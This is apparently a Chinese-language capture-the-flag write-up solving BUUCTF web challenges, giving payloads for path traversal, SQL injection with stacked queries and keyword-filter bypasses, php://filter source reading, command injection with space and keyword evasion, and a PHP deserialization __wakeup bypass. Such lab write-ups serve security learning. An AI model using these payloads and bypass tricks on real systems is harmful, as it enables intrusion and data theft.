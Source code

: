 # buuctf Web WP

##### WarmUp

​	![image-20210615085408294](../../../../../../../home/carrym/.config/Typora/typora-user-images/image-20210615085408294.png)

​	满足返回true 就行

​	==payload==

```
file=hint.php?../../../../../../../ffffllllaaaagggg
```



##### EasySQL

​	==payload==

```
1' or 1=1#
```



##### havefun

​	![image-20210615090018812](../../../../../../../home/carrym/.config/Typora/typora-user-images/image-20210615090018812.png)

​	==payload==

```
cat=dog
```



##### 随便注

```
1'or 1=1#注入成功
使用select  return  preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

使用报错注入
1' and extractvalue(1,concat('~',database()))#
爆出数据库名

堆叠注入查出表名
-1';use supersqli;show tables;#

用show查出字段名
拼接sql语句，绕过sql关键字检测得到flag
-1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#

Notes:
1、set 语句为已存在的变量赋值，PREPARE创建SQL语句，EXECUTE执行SQL语句。
2、sql中有一些保留字，当你的字段名是它的保留字时，这个时候sql语句的字段不加``就会报错。

https://blog.csdn.net/qq_43818615/article/details/104485484

```



##### EasySQL

​		堆叠注入

​	输入==1==返回==Array ( [0] => 1 )==

​	==1;show tables;#==返回==Array ( [0] => 1 ) Array ( [0] => Flag )==

关键的查询代码是 `select $post['query']||flag from Flag`

==payload==

```
`1;set sql_mode=PIPES_AS_CONCAT;select 1`
```

- 拼接一下就是 `select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag`
- 关于 `sql_mode` : 它定义了 MySQL 应支持的 SQL 语法，以及应该在数据上执行何种确认检查，其中的 `PIPES_AS_CONCAT` 将 `||` 视为字符串的连接操作符而非 "或" 运算符
- 还有就是这个模式下进行查询的时候，使用字母连接会报错，使用数字连接才会查询出数据，因为这个 `||` 相当于是将 `select 1` 和 `select flag from flag` 的结果拼接在一起
- 关于==非预期解== 

```
*,1
```

- 拼接一下，不难理解 : `select *,1||flag from Flag`
- 等同于 `select *,1 from Flag`



##### Include

​		/?file=flag.php网页有利用点

尝试了那就是利用伪协议，文件名就是flag应该就在本文件源码里

所以用==php://filter用于读取源码==

==payload==

```
?file=php://filter/read=convert.base64-encode/resource=./flag.php
```



##### Secret File

​		审计源码，用颜色隐藏了一个页面

​		第二个页面超链接到action.php点开后却跳到end.php

​	抓包，发现关键页面

![image-20210617154522625](../../../../../../../home/carrym/.config/Typora/typora-user-images/image-20210617154522625.png)

伪协议filter就行



##### Exec

​		简单命令执行，堆叠注入

==payload==

```
127.0.0.1;ls ../../../../../
```

```
127.0.0.1;cat /flag
```



###### Ping Ping Ping

​		命令执行的空格绕过和特殊字符绕过，堆叠注入

关键代码↓

```
 $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

```

过滤了bash不能进行解码

尝试使用拼接绕过，过滤flag所以写成agfl

###### ① 空格过滤

空格可以用以下字符串代替：

> < 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等

$IFS在linux下表示分隔符，但是如果单纯的cat$IFS2,bash解释器会把整个IFS2当做变量名，所以导致输不出来结果，然而如果加一个{}就固定了变量名，同理在后面加个$可以起到截断的作用
，但是为什么要用$9呢，因为$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串。

==payload==

```
?ip=127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php
```



###### PHP

​		php备份文件，尝试了php~和bak都不行

用字典爆破出www.zip

关键代码

![image-20210731100021160](../../../../../../../home/carrym/.config/Typora/typora-user-images/image-20210731100021160.png)

在反序列化时，当前属性个数大于实际属性个数时，就会跳过`__wakeup()`，去执行`__destruct`

?select=O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}

然后我们又意识到，这个变量时private

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字

段名在序列化时，类名和字段名前面都会加上==\0==的前缀。字符串长度也包括所加前缀的长度



==payload==

```
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

